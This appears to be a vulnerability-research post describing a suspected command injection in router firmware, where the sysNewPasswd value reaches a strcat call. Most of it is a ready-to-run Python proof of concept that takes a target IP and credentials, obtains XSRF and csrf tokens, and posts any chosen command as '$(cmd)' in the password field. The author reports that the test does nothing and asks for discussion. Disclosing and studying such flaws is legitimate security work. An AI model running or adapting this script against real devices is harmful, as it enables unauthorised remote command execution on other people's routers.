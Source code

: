 <<<<<<< HEAD
First, in function sub_31D4C, "http_passwd" is obtained through sub_16B04("sysNewPasswd") and stored in v26, then the value of v26 is stored in nvram through acosNvramConfig_set, and then the value of nvram is read. Finally, in function sub_6A384(), v6 through function acosNvramConfig_get() obtain the "http_passwd",then stacat() to v16, causing a command injection. 
![Alt text](1696075866626.png)
![Alt text](1696076104414.png)
and the poc is following:
<pre>
#!/usr/bin/python3

import requests
import base64
import re

target = input("Enter Target IP : ")
username = input("Enter Target username : ")
passwd = input("Enter Target passwd : ")
cmd = input("Enter you want cmd : ")

username_passwd = username + ":" + passwd
auth = base64.b64encode(username_passwd.encode('utf-8')).decode("utf-8")
print(auth)

#request 1 : get XSRF_TOKEN
burp0_url = "http://" + target + ":80/PWD_password.htm"
burp0_cookies = {"XSRF_TOKEN": "2267229739"}
burp0_headers = {"User-Agent": "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/112.0", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8", "Accept-Language": "en-US,en;q=0.5", "Accept-Encoding": "gzip, deflate", "Authorization": "Basic 123123", "Connection": "close",  "Upgrade-Insecure-Requests": "1"}
response1 = requests.get(burp0_url, headers=burp0_headers, cookies=burp0_cookies)

if 'Set-Cookie' in response1.headers:
    set_cookie = response1.headers['Set-Cookie']
    print(f'The Set-Cookie value is: {set_cookie}')
else:
    print('No Set-Cookie field in the response header')

pattern = r'(?<=\=)([^;]*)'
XSRF_TOKEN = re.findall(pattern, set_cookie)[0]
print(XSRF_TOKEN)

#request 2 : get csrf_id
burp0_cookies = {"XSRF_TOKEN": XSRF_TOKEN}
burp0_headers = {"User-Agent": "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/112.0", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8", "Accept-Language": "en-US,en;q=0.5", "Accept-Encoding": "gzip, deflate", "Authorization": "Basic " + auth, "Connection": "close", "Upgrade-Insecure-Requests": "1"}
response2 = requests.get(burp0_url, headers=burp0_headers, cookies=burp0_cookies)
pattern = r'cgi\?id=([\w\d]+)'
csrf_id = re.search(pattern, response2.text).group(1)
print("csrf_id is :" + csrf_id)

#request 3 : send payload
burp0_url = "http://" + target + ":80/password.cgi?id=" + csrf_id
burp0_data = {"apply": "Apply", "sysOldPasswd": "Qwer1234", "sysNewPasswd": "$(" + cmd + ")"}
burp0_headers = {"User-Agent": "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/112.0", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8", "Accept-Language": "en-US,en;q=0.5", "Accept-Encoding": "gzip, deflate", "Content-Type": "text/plain", "Origin": "http://" + target, "Authorization": "Basic " + auth, "Connection": "close", "Upgrade-Insecure-Requests": "1"}

response3 = requests.post(burp0_url, headers=burp0_headers, cookies=burp0_cookies, data=burp0_data)

print('end!!!')

</pre>
However, nothing happens after I use the test case. I am very confused and hope you can discuss it with me.
